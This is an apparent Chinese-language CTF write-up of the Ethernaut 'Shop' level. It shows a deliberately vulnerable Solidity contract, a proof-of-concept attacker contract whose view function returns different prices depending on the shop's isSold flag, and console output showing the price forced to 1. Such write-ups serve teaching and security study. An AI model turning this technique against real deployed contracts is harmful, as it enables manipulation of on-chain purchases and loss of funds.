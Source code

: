 ```yaml
---
title: '函数标识符pure和view-2'
date: 2022-12-19 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

#### 第二十一关Shop 思路与POC

#### 目标: 改变pirce变量数值使其低于100并能使isSold变量为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
//很明显问题在于你怎么实现这个price函数
interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);
 /*
根据第11关我们知道view/pure标识符就是限制函数不能够在不同的形参输入下改变结果(不能改变函数的状态),但是此处是并没有输入的。
那么如何绕过这个判断就成了一个脑筋急转弯的问题。
 我们需要找到一个flag能够使我们自己实现的price函数返回不同的结果. 显然这里的isSold就是最好的flag
 */
    if (_buyer.price() >= price && !isSold) {
    //卖出一个商品(根据用户输入改变存储数据)第一条代码是验证用户输入然后就应该立刻先完成存储数据的变更
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

##### poc思路:point_right:：我们仅需要根据商品售没售出这个布尔值更改price函数返回的结果即可

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Vulnerability/Shop.sol";

contract hackShop {
    Shop shop = Shop(0x686da930FE2Ccde0A069AFEA8aE676eF6B4aAd91);

    function hackbuy() public {
        shop.buy();
    }
   //根据isSold变量改变函数返回
    function price() external view returns (uint) {
       return shop.isSold() ? 1 : 101;
    }
}

```

```js
//查看price变量,成功修改
(await contract.price()).toString()
'1'
```

